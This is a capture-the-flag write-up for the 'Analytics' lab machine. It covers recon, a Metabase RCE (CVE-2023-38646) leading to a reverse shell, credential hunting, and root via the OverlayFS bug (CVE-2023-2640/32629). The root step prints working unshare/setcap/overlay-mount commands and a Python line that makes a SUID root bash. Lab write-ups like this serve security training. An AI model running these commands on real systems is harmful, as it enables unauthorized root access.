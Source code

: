 ````markdown
# Analytics CTF Room Writeup

**Target:** analytical.htb  
**Goal:** Initial RCE via Metabase (CVE-2023-38646), user shell, then root via OverlayFS kernel exploit (CVE-2023-2640 & CVE-2023-32629)

---

## 1. Initial Recon & Enumeration

Started with a full TCP port scan:  
```bash
nmap -p- -sV -T4 analytical.htb
````

Found port **80** open, HTTP running.
Added domain to `/etc/hosts` for convenience:

```
10.10.x.x analytical.htb
```

Visited `http://analytical.htb` → Redirected to Metabase login page.

---

## 2. Subdomain Bruteforce & Discovering Data

Used subdomain enumeration tools (like `gobuster` or `ffuf`) to find:
`data.analytical.htb` → another Metabase login page.

---

## 3. Metabase Version & RCE CVE-2023-38646

Searched for Metabase exploits → found CVE-2023-38646, an RCE in Metabase’s API.

Checked API for version and token needed:

```bash
curl http://data.analytical.htb/api/session/properties
```

Got version info and confirmation this version is vulnerable.

---

## 4. Getting a Reverse Shell

Set up a Netcat listener on local machine:

```bash
nc -lvnp 4444
```

Used the CVE PoC/exploit with the token from above → got reverse shell as `metabase` user.

---

## 5. Post-Exploitation: Finding Credentials

On the shell, ran:

```bash
env
```

Saw some environment variables with username and password hints.

Next, ran:

```bash
strings metabase.db.mv.db | grep -Eo '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}'
```

Got emails, looked for those related to our user.

Used these emails and guessed passwords (or reused found creds) to log into the Metabase web interface.

---

## 6. SSH Access

Using found credentials, tried SSH:

```bash
ssh user@analytical.htb
```

Login successful.

Grabbed user flag.

---

## 7. Kernel and OS Info

Ran:

```bash
uname -a
lsb_release -a
```

Found kernel: `6.2.0-25-generic`
Ubuntu release: `22.04.03`

---

## 8. Root Privilege Escalation – OverlayFS Kernel Exploit

Looked for Ubuntu kernel exploits for this version → found CVE-2023-2640 & CVE-2023-32629.

The exploit abuses OverlayFS to gain root privileges by mounting OverlayFS with a crafted setup and copying python3 with elevated capabilities.

---

## 9. Running the Exploit

Run this command:

```bash
unshare -rm sh -c "
mkdir l u w m &&
cp /usr/bin/python3 l/ &&
setcap cap_setuid+eip l/python3 &&
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m &&
touch m/*;"
```

This starts a new shell with root privileges inside a user namespace, creates necessary folders, copies python3 and gives it special capabilities, mounts OverlayFS combining those folders, and triggers a copy preserving root capabilities.

Then run:

```bash
u/python3 -c 'import os; os.setuid(0); os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

This runs the python3 with root privileges, copies bash to `/var/tmp/bash`, sets it as SUID root executable, runs it to spawn a root shell, then cleans up.

---

## 10. Final Result

gained root access by running the SUID bash shell at `/var/tmp/bash`:

```bash
/var/tmp/bash -p
```

Now I can read the root flag and fully control the machine.
